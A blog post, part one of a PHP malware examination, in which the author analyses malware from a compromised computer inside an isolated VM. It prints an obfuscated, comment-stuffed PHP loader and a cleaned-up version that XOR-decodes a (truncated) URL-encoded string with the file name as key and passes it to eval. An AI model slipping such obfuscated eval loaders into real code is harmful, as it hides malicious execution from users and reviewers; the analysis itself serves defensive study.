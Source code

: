 ```yaml
---
title: "PHP Malware Examination"
date: 2018-11-07T21:56:04Z
categories: ["articles"]
tags: ["PHP", "Malware", "Analysis", "timw"]
url: /2018/11/07/PHP-Malware-Examination/
---
```


Presented by [Tim](authors/timwilkes)

[Follow me on Twitter](https://twitter.com/timmehwimmy)

[Update - Part 2](/2018/11/27/PHP-Malware-Examination-part-2)

I was asked earlier this week by a friend to have a look at some malware, which had been uncovered on a compromised computer. I didn't ask where it had came from, or indeed the host environmnet. Having programmed in PHP since university and malware analysis is kind of a hobby, I thought I would give it a go.

Before going any further, I used one of my kali linux VMs, with PHP installed on it. The VM was isolated from the internet, and from even the host machine. I took a snapshot of the machine before introducing the malware, to make sure I could restore the VM to a known good state if all things went wrong.

# Layer 1 - The XOR

Starting to examine the malware, the first thing I noticed was that the malware was not without it's defenses to resist analysis. The code reproduced below, has had several parts removed, to aid reading.

```PHP
<?php
$_20lsq = basename/*hce*/(/*a*/trim/*q13*/(/*w*/preg_replace/*zsgp*/(/*12x*/rawurldecode/*xnrbo*/(/*lq8*/"%2F%5C%28.%2A%24%2F"/*vky*/)/*b*/, '', __FILE__/*1q*/)/*8redn*//*ijdno*/)/*lq*//*m*/)/*z3*/;$_1j87lwe = "GQ%19%1FE%02V%02%08%40%0C%07G%09DME%01%07%5E%3B%02A%07%17%0AVCfT%16%03R%10%04%0ENJF%24L3S%01%00Z%0A% ... ";eval/*p1ah*/(/*d5nsu*/rawurldecode/*jrp*/(/*k2zm*/$_1j87lwe/*p*/)/*l48*/ ^ substr/*2g8v*/(/*dp6xa*/str_repeat/*7tld1*/(/*apu46*/$_20lsq, /*7bv4*/(/*34w*/strlen/*sgvwq*/(/*lgy*/$_1j87lwe/*a9*/)/*0ny*//strlen/*a47*/(/*i*/$_20lsq/*mw*/)/*hlzo6*//*6r1*/)/*tlpj*/ + 1/*a*/)/*h*/, 0, strlen/*9fgb*/(/*u*/$_1j87lwe/*pk*/)/*6ax*//*igy*/)/*bh*//*5*/)/*9w*/;
```

The comments in PHP were quite annoying. Fortunately, PHP has a built in function for removing comments. After all, who comments code anyway? :-) Running "php -w <file>" stripped the code of the comments. The comments are quite distracting from the analysis point of view. Now to find out what is actually going on. The code itself is actually 3 code lines, all mashed up in to one line. visually a pain, functionally ok. Separating out the code to 3 lines, and removing the comments gives us

```PHP
<?php
$_20lsq = basename(trim(preg_replace(rawurldecode("%2F%5C%28.%2A%24%2F"), '', __FILE__)));
$_1j87lwe = "GQ%19%1FE%02V%02%08%40%0C%07G%09DME%01%07%5E%3B%02A%07%17%0AVCfT%16%03R%10%04%0ENJF%24L3S%01%00Z%0A% ... ";
eval(rawurldecode($_1j87lwe) ^ substr(str_repeat($_20lsq, (strlen($_1j87lwe)/strlen($_20lsq)) + 1), 0, strlen($_1j87lwe)));
```
